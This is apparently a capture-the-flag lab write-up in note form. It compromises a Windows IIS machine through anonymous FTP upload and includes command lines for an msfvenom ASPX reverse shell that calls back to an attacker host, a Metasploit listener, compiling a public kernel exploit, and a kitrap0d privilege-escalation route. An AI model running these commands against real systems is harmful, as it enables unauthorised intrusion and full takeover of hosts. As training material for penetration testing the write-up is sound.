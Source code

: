 **IPv4: 10.10.10.5**
## Enumeration/Scanning
sudo nmap -A -Pn -sS -oN nmap $IP

ports
* 21
	* anon allowed
* 80
	* Microsoft IIS httpd 7.5

anon login allowed for ftp

upload and download allowed, and resource can be accessed. I checked by
* echo test > test.html
* using ftp I uploaded it to the server
* accessed test.html through 10.10.10.5/test.html

I can upload a reverse shell

msfvenom is a payload generator
* msfvenom -p windows/meterpreter/reverse_tcp -f aspx -o shell.aspx LHOST=10.10.14.6 LPORT=1127

put onto ftp server

use msfconsole to set up a listener in metasploit
* use exploit/multi/handler
* set payload windows/meterpreter/reverse_tcp
* set LHOST and LPORT
* run

open shell.aspx on site

use command shell to create shell

use systeminfo to find info on system and vuln

os version is 6.1.7600

searching google "6.1.7600 exploit"
* I found a priv esc exploit
* https://www.exploit-db.com/exploits/40564

I downloaded the exploit. It is important to note that it has to be compiled as well, which is seen in the following command:
* i686-w64-mingw32-gcc ~/Desktop/40564.c -o exploit.exe -lws2_32

uploaded it to the server through ftp

webserver is located in c:\inetpub\wwwroot

After running exploit.exe, I received the error This program cannot be run in DOS mode.

This is because of how I transferred the file via ftp. I switched to binary in ftp and uploaded it again. 

This time it worked, and I rooted the box.

another way to priv esc:
There is a suggester meterpreter module that suggested possible exploits in the current session.
* search suggester
* use post/multi/recon/local_exploit_suggester
* set session to current session
* run

service for exploit/windows/local/ms10_015_kitrap0d exploit is running so I can use it to priv esc
* use
* set session, LHOST, and LPORT
* exploit

## Exploitation


## Privilege Escalation


## Post-exploitation

